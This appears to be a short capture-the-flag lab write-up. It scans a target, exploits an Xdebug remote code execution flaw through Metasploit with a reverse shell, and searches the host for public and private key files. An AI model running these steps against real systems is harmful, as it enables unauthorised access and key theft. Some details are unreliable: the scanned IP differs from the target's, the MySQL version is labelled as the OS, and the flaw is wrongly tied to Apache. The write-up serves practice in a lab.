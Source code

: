 ```yaml
---
layout: post
title:  "CTFLive - Assumed Breach"
postid: writeup
categories:
---
```

# Hunting Artifacts
Kali IP: 192.117.250.2
Target IP: 192.117.250.3

Get 3 private and public keys

<br />

# Nmap Scan
nmap -sC -sV 192.141.136.3

80
* http-title: XODA
* Apache 2.4.7
* httponly flag not set

3306
* mysql protocol 10

OS: 5.5.47-0ubuntu04.04.1

<br />

# Vulnerability due to scan
Per Google Apache 2.4.7 has vulnerability in the eval command present in Xdebug versions 2.5.5 and below. This allows the attacker to execute arbitrary php code as the context of the web user. 

<https://www.rapid7.com/db/modules/exploit/unix/http/xdebug_unauth_exec>

<br />

# Metasploit
```
> use exploit/unix/http/xdebug_unauth_exec
> show options
> set RHOST and LHOST for reversetcp
> exploit
```
```
> shell
$ cd .
$ find . -type f -name '*.pub'
$ find . -tyep f -name 'user_private'
```

Public Key
* ./opt/######.pub
* ./tmp/######.pub
* ./usr/local/bin/#####.pub

Private Key
* /usr/local/share/######
* /usr/bin/###########
* /var/######

**Flags were regarding names of files**